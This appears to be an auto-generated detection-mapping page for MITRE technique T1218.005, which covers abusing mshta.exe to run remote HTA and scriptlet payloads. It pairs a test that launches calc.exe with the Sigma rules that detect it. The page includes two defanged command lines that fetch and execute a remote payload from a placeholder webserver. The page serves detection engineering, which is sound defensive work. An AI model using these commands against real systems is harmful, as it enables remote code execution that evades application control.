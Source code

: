 
[back](../index.md)

Find sigma rule :heavy_check_mark: 

# Attack: Mshta 

Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)

# MITRE
## Tactic
  - defense-evasion


## technique
  - T1218.005


# Test : Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject
## OS
  - windows


## Description:
Test execution of a remote script using mshta.exe. Upon execution calc.exe will be launched.


## Executor
command_prompt

# Sigma Rule
 - win_susp_mshta_pattern.yml (id: e32f92d1-523e-49c3-9374-bdb13b46a3ba)

 - win_mshta_javascript.yml (id: 67f113fa-e23d-4271-befa-30113b3e08b1)

 - win_susp_mshta_execution.yml (id: cc7abbd0-762b-41e3-8a26-57ad50d2eea3)

 - file_event_win_shell_write_susp_directory.yml (id: 1277f594-a7d1-4f28-a2d3-73af5cbeab43)

 - sysmon_win_binary_github_com.yml (id: e0f8ab85-0ac9-423b-a73a-81b3c7b1aa97)



[back](../index.md)
